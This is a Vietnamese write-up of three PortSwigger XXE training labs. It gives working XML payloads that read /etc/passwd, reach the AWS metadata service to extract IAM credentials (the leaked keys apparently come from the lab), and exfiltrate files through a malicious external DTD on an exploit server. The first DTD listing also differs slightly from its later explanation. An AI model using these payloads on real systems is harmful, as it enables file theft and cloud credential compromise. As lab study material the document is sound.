# PortSwigger XXE

## Bài tập 1: Tấn công XXE dùng entity ngoài để truy xuất file

### Yêu cầu bài tập

Bài thực hành cung cấp một chức năng kiểm tra số lượng hàng tồn kho của sản phẩm có nhiệm vụ tiếp nhận và xử lý dữ liệu đầu vào dưới định dạng XML.

Để hoàn thành bài thực hành, cần thực hiện chèn một thực thể ngoài XML External Entity trỏ đến tệp tin `/etc/passwd` của hệ thống nhằm hiển thị nội dung tệp tin này trong phản hồi của ứng dụng.

### Phân tích lỗ hổng

Lỗ hổng XXE phát sinh tại chức năng tra cứu sản phẩm tồn kho. Khi người dùng thực hiện yêu cầu kiểm tra hàng tồn kho, ứng dụng gửi một yêu cầu HTTP POST mang dữ liệu XML chứa thông tin mã sản phẩm và mã cửa hàng.

Do trình phân tích cú pháp XML Parser trên máy chủ dịch vụ không vô hiệu hóa tính năng khai báo tài liệu DTD và cho phép xử lý thực thể bên ngoài, tác nhân kiểm thử có thể định nghĩa một thực thể ngoài trỏ tới tệp tin nhạy cảm của hệ thống.

Khi parser xử lý tài liệu XML, nó sẽ giải quyết thực thể ngoài này và nạp nội dung của tệp tin đích vào cấu trúc XML. Do ứng dụng hiển thị trực tiếp giá trị của phần tử chứa thực thể này trong phản hồi lỗi hoặc kết quả, nội dung của tệp tin nhạy cảm sẽ bị rò rỉ ra ngoài.

### Quy trình thực hiện chi tiết

Trang chủ của bài thực hành hiển thị danh sách các sản phẩm có sẵn trên hệ thống:


Thực hiện truy cập vào trang chi tiết của một sản phẩm bất kỳ. Di chuyển xuống cuối trang để tìm chức năng tra cứu số lượng hàng tồn kho. Nhấp chuột vào nút kiểm tra lượng tồn kho để kiểm tra hoạt động bình thường của chức năng:


Kích hoạt công cụ Burp Suite và bật tính năng chặn bắt yêu cầu Intercept. Thực hiện gửi lại yêu cầu kiểm tra hàng tồn kho để ghi lại yêu cầu HTTP tương ứng:



Yêu cầu HTTP POST được gửi tới hệ thống sử dụng định dạng XML ở phần thân với cấu trúc sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

Thực hiện gửi yêu cầu đi và quan sát kết quả phản hồi thông thường của ứng dụng:



Để khai thác lỗ hổng, thực hiện chèn khai báo DOCTYPE chứa thực thể ngoài SYSTEM trỏ đến tệp tin passwd của hệ thống Linux. Thay đổi giá trị của phần tử productId thành thực thể vừa định nghĩa:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Gửi yêu cầu đã chỉnh sửa đi bằng công cụ Burp Suite:



Kết quả phản hồi trả về mã trạng thái HTTP 400 cùng với toàn bộ nội dung tệp tin passwd của máy chủ đích. Điều này xác nhận cuộc tấn công khai thác thành công và hoàn thành bài thực hành:



### Phân tích cơ chế hoạt động của payload

Payload sử dụng trong bài thực hành để khai thác lỗ hổng:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

Cơ chế hoạt động của các thành phần trong payload bao gồm:

* Cú pháp `DOCTYPE` khởi tạo một định nghĩa tài liệu DTD nội bộ có tên là test để khai báo các quy tắc cấu trúc cho tài liệu XML.
* Định nghĩa thực thể ngoài `<!ENTITY xxe SYSTEM 'file:///etc/passwd'>` tạo ra một thực thể có tên là xxe. Từ khóa `SYSTEM` chỉ thị cho trình phân tích cú pháp nạp nội dung từ đường dẫn tệp tin cục bộ `file:///etc/passwd` trên máy chủ.
* Việc gọi thực thể bằng cú pháp `&xxe;` trong thẻ productId yêu cầu XML Parser thay thế vị trí này bằng toàn bộ nội dung của tệp tin passwd sau khi phân giải xong.
* Khi ứng dụng xử lý dữ liệu và phản hồi lại giá trị productId không hợp lệ, nó vô tình in ra toàn bộ nội dung tệp tin passwd đã được nạp trước đó trong thông báo lỗi.

## Bài tập 2: Khai thác XXE để tấn công SSRF

### Yêu cầu bài tập

Bài thực hành yêu cầu sử dụng lỗ hổng XXE để thực hiện tấn công SSRF đến hệ thống nội bộ nhằm lấy được thông tin khóa cấu hình bảo mật IAM của dịch vụ máy chủ EC2 tại địa chỉ IP cục bộ `http://169.254.169.254/`.

### Phân tích lỗ hổng

Lỗ hổng phát sinh do ứng dụng xử lý dữ liệu XML đầu vào mà không vô hiệu hóa tính năng phân giải thực thể bên ngoài. Thay vì truy xuất các tệp tin cục bộ trên máy chủ, tác nhân kiểm thử có thể chỉ định thực thể ngoài trỏ đến một địa chỉ mạng nội bộ hoặc dịch vụ cloud metadata của chính máy chủ.

Khi XML Parser xử lý yêu cầu, nó sẽ tự động gửi một yêu cầu HTTP GET đến địa chỉ mạng nội bộ được chỉ định. Nếu máy chủ nội bộ hoặc dịch vụ cloud metadata phản hồi dữ liệu, parser sẽ nạp nội dung đó vào tài liệu XML và hiển thị kết quả trong phản hồi lỗi, dẫn đến việc lộ thông tin nhạy cảm.

### Quy trình thực hiện chi tiết

Trang chủ của bài thực hành hiển thị danh sách các sản phẩm:


Truy cập vào chi tiết của một sản phẩm và tìm đến chức năng tra cứu sản phẩm tồn kho ở cuối trang:


Kích hoạt tính năng chặn bắt yêu cầu Intercept trên công cụ Burp Suite và bấm nút kiểm tra lượng tồn kho để thu thập yêu cầu HTTP POST:



Yêu cầu HTTP POST ban đầu sử dụng định dạng XML ở phần thân. Thực hiện chỉnh sửa dữ liệu XML bằng cách chèn khai báo DOCTYPE chứa thực thể ngoài SYSTEM trỏ đến địa chỉ IP dịch vụ metadata:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Gửi yêu cầu đi và quan sát phản hồi lỗi của máy chủ:



Phản hồi trả về lỗi thông báo giá trị productId không hợp lệ kèm theo thư mục con tiếp theo là `latest`. Thực hiện cập nhật đường dẫn của thực thể ngoài để tiếp tục dò tìm các thư mục con sâu hơn. Quá trình dò tìm được thực hiện tuần tự qua các thư mục `latest`, `meta-data`, `iam`, `security-credentials`.

Đường dẫn cuối cùng được xác định để truy xuất khóa truy cập là:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Gửi yêu cầu đã hoàn thiện này bằng Burp Suite:



Phản hồi trả về mã trạng thái lỗi HTTP 400 chứa thông tin chi tiết của khóa bảo mật tài khoản IAM bao gồm AccessKeyId và SecretAccessKey, hoàn thành bài thực hành:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 552

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2026-08-03T03:55:54.158985444Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "gHpNMdTkgyrGPJBCijra",
  "SecretAccessKey" : "wsTGLgZkpJF7HqF87etTMtjvQc7MWVoAM64Tah41",
  "Token" : "Y50C9RqJH9sihcxtcIp4oZYASIcRNo3U2Y6MKG39zkmdqpaYuG9zeugCLibu8YEza7zDLXfgZEYH6s1SyzTlda8KrxsFscZqTaFNbkxLbp0TJsKxj5yBJmDGE3lAhMUX3RPqCdGxp2Y3gA1PlXNgwd0aRyuKGV8JW9YIj1hJ6ysqEkww32hvUi5Er8uYGIjO3h1LaGISouXgdiRN5wtiFhI5Ej28mhhLqJcvhzobphPDgRvaZhHG0AnX7DbCl254",
  "Expiration" : "2032-08-01T03:55:54.158985444Z"
}"
```



### Phân tích cơ chế hoạt động của payload

Payload sử dụng để khai thác lỗ hổng trong bài thực hành:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
```

Cơ chế hoạt động của payload:

* Khai báo `DOCTYPE` khởi tạo một định nghĩa tài liệu DTD nội bộ có tên là test.
* Cú pháp thực thể ngoài `<!ENTITY xxe SYSTEM 'http://169.254.169.254/...'>` định nghĩa thực thể xxe liên kết đến URL ngoài thông qua giao thức HTTP.
* Khi XML Parser xử lý giá trị tham chiếu `&xxe;` trong phần tử productId, nó sẽ thực hiện một yêu cầu kết nối mạng HTTP GET tới địa chỉ dịch vụ metadata của AWS.
* Khi XML Parser xử lý giá trị tham chiếu `&xxe;` trong phần tử productId, nó sẽ thực hiện một yêu cầu kết nối mạng HTTP GET tới địa chỉ dịch vụ metadata của AWS.
* Parser tiếp nhận kết quả trả về từ URL dịch vụ và chèn trực tiếp nội dung chuỗi JSON chứa thông tin xác thực IAM vào phần tử productId. Do ứng dụng in ra lỗi khi dữ liệu productId không hợp lệ, toàn bộ chuỗi thông tin bảo mật được trả về trực tiếp trong phản hồi cho người dùng.

---

## Bài tập 3: Khai thác XXE mù để truy xuất dữ liệu thông qua thông báo lỗi

### Yêu cầu bài tập

Bài thực hành yêu cầu sử dụng một tệp tin định nghĩa DTD bên ngoài để kích hoạt thông báo lỗi của trình phân tích XML Parser, từ đó đọc nội dung của tệp tin passwd. Hệ thống cung cấp một máy chủ khai thác Exploit Server để lưu trữ tệp tin DTD độc hại này.

### Phân tích lỗ hổng

Lỗ hổng phát sinh do trình phân tích XML Parser của ứng dụng cho phép xử lý thực thể bên ngoài và DTD từ nguồn không đáng tin cậy. Mặc dù ứng dụng không hiển thị kết quả phân tích XML trực tiếp ra màn hình, máy chủ vẫn hiển thị chi tiết nội dung thông báo lỗi của hệ thống khi quá trình phân tích xảy ra lỗi.

Bằng cách xây dựng các thực thể lồng nhau để cố tình truy cập vào một đường dẫn tệp tin không tồn tại chứa nội dung của tệp tin passwd, thông báo lỗi của hệ thống sẽ in ra đường dẫn không hợp lệ đó kèm theo toàn bộ dữ liệu của tệp tin passwd trực tiếp trên phản hồi.

### Quy trình thực hiện chi tiết

Trang chủ của bài thực hành hiển thị danh sách các sản phẩm:


Truy cập vào trang chi tiết của một sản phẩm bất kỳ. Tìm đến mục tra cứu số lượng sản phẩm tồn kho tại một khu vực cụ thể ở cuối trang:


Kích hoạt tính năng Intercept của công cụ Burp Suite và bấm nút kiểm tra lượng tồn kho để chặn bắt yêu cầu HTTP POST:



Thử nghiệm chèn một thực thể ngoài thông thường vào dữ liệu XML của yêu cầu. Kết quả phản hồi của máy chủ chặn thực thể và hiển thị thông báo lỗi chi tiết ra màn hình, xác nhận hệ thống cho phép hiển thị thông báo lỗi của trình phân tích cú pháp:



Để thực hiện tấn công lỗi dựa trên thông báo lỗi, cần lưu trữ một tệp tin DTD độc hại trên máy chủ khai thác Exploit Server được cung cấp sẵn trong bài thực hành:



Soạn thảo nội dung tệp tin DTD độc hại tại mục Body của Exploit Server như sau:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Lưu cấu hình bằng nút Store để ghi nhận địa chỉ URL của file DTD này (ví dụ: `https://exploit-server.net/exploit`).

Quay lại công cụ Burp Suite, chỉnh sửa phần thân yêu cầu XML kiểm tra hàng tồn kho để gọi tệp tin DTD vừa lưu trữ từ Exploit Server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit">
    %xxe;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Gửi yêu cầu đi bằng Burp Suite:



Phản hồi trả về mã trạng thái lỗi HTTP 400 cùng thông báo lỗi không tìm thấy tệp tin không hợp lệ, trong đó chứa toàn bộ nội dung tệp tin passwd của hệ thống, hoàn thành bài thực hành.

### Phân tích cơ chế hoạt động của payload

#### Tại sao cần lưu trữ tệp tin DTD trên máy chủ khai thác bên ngoài?

Theo tiêu chuẩn thiết kế của XML, việc định nghĩa các thực thể tham số lồng nhau và gọi trực tiếp chúng trong DTD nội bộ là hành vi bị cấm bởi hầu hết các trình phân tích cú pháp nhằm ngăn chặn các vòng lặp đệ quy gây cạn kiệt tài nguyên.

Tuy nhiên, quy định này không áp dụng đối với các tệp tin định nghĩa DTD bên ngoài. Do đó, tác nhân kiểm thử phải lưu trữ các thực thể tham số lồng nhau trên một máy chủ độc lập và gọi tệp tin này về máy chủ nạn nhân dưới dạng một thực thể ngoài.

#### Cơ chế hoạt động của tệp tin DTD độc hại

Quá trình xử lý của tệp tin DTD độc hại diễn ra theo các bước tuần tự như sau:

* **Bước 1: Thực thể file nạp nội dung tệp tin passwd**
  Khai báo `<!ENTITY % file SYSTEM 'file:///etc/passwd'>` tạo ra một thực thể tham số tên là file. Khi trình phân tích cú pháp XML Parser mở thực thể `%file;`, nội dung của tệp tin `/etc/passwd` được đọc và lưu trữ tạm thời trong bộ nhớ của XML Parser dưới dạng một chuỗi văn bản.
  Ví dụ nội dung tệp tin:

  ```text
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  ```
* **Bước 2: Thực thể eval khởi tạo thực thể exfil**
  Khai báo `<!ENTITY % eval '<!ENTITY &#x25; exfil SYSTEM "file:///invalid/%file;">'>` sau khi phân giải mã hóa thực thể `&#x25;` sẽ trở thành:

  ```xml
  <!ENTITY % exfil SYSTEM 'file:///invalid/%file;'>
  ```
  Trong đó: `&#x` đại hiện cho cách biểu diễn hệ HEX => `%#x25` = `25H` = 37 (hệ 10) => Ký tự `%` trong bảng mã ASCII.

  Sau đó, giá trị của thực thể `%file;` được điền vào đường dẫn. Kết quả là thực thể `%exfil` sẽ trỏ tới một đường dẫn không tồn tại nhưng chứa nội dung của tệp tin passwd:

  ```xml
  <!ENTITY % exfil SYSTEM 'file:///invalid/root:x:0:0:root:/root:/bin/bash...'>
  ```
* **Bước 3: Thực thể exfil kích hoạt yêu cầu đọc file không hợp lệ**
  Khi thực hiện gọi thực thể `%exfil;`, trình phân tích cú pháp bắt đầu thử truy cập vào đường dẫn:

  ```text
  file:///invalid/root:x:0:0:root:/root:/bin/bash...
  ```
  Do thư mục hoặc đường dẫn này hoàn toàn không tồn tại trên hệ thống máy chủ, quá trình phân tích sẽ bị dừng lại và kích hoạt một thông báo lỗi.
* **Bước 4: Nội dung tệp tin passwd bị rò rỉ qua thông báo lỗi**
  Trình phân tích cú pháp không thể nhận diện được phần nội dung phía sau thư mục `invalid` là dữ liệu nhạy cảm của hệ thống. Trình phân tích chỉ ghi nhận lỗi không thể mở tệp tin tại đường dẫn được cung cấp và thực hiện in toàn bộ đường dẫn đó ra màn hình để hiển thị thông báo lỗi.
  Do đường dẫn chứa nội dung tệp tin passwd do tác nhân kiểm thử kiểm soát, thông báo lỗi vô tình hiển thị toàn bộ dữ liệu này:

  ```text
  Could not load the external entity: file:///invalid/root:x:0:0:root:/root:/bin/bash...
  ```
